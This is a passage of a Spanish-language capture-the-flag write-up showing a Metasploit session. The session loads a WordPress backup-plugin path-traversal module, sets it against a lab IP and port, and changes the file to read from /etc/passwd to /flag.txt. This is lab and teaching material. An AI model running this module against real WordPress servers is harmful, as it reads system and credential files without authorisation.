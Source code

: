 usamos ese exploit y revisamos las opciones

~~~
msf6 > use 0
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > show options

Module options (auxiliary/scanner/http/wp_simple_backup_file_read):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DEPTH      6                yes       Traversal Depth (to reach the root folder)
   FILEPATH   /etc/passwd      yes       The path to the file to read
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   THREADS    1                yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host

~~~

Como ya hemos visto tenemos que configurar `RHOST`y por supuesto el `RPORT`, pero un detalle en esta configuracion es FILEPATH, en esta opcion es que tenemos que colocar la ruta de lo que querramos obtener, en este caso lo tenemos que cambiar por `/flag.txt

~~~
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set RHOSTS 188.166.148.4
RHOSTS => 188.166.148.4

msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set rport 32497
rport => 32497

msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set FILEPATH /flag.txt
FILEPATH => /flag.txt
~~~

y vemos entonces que la configuracion queda asi

~~~
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > show options

Module options (auxiliary/scanner/http/wp_simple_backup_file_read):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DEPTH      6                yes       Traversal Depth (to reach the root folder)
   FILEPATH   /flag.txt        yes       The path to the file to read
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     188.166.148.4    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      32497            yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   THREADS    1                yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host
~~~
